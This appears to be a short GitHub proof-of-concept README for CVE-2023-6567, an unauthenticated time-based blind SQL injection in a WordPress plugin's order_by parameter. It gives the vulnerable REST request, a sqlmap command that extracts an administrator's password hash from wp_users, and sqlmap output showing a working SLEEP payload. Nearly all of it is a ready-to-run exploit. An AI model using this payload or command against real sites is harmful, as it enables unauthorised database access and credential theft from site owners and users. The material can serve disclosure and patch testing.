 # CVE-2023-6567-poc
Time-based SQLi

Description
The plugin does not properly sanitise and escape the order_by parameter before using it in a SQL statement, leading to a SQL injection exploitable by unauthenticated users

1. Vulnerable GET request:
https://vulnerablewordpress.com/wp-json/lp/v1/courses/archive-course?c_search=test&order_by=ID&order=DESC&limit=10&return_type=html

2. Save GET request
3. sqlmap -r ~/sqli.req -p order_by --technique=T --sql-query = 'select user_pass from wp_users where id = 1'
4. sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: https://VULNERABLEWORDPRESS/wp-json/lp/v1/courses/archive-course?c_search=test&order_by=ID AND (SELECT 7508 FROM (SELECT(SLEEP(5)))VVvd)&order=DESC&limit=10&return_type=html
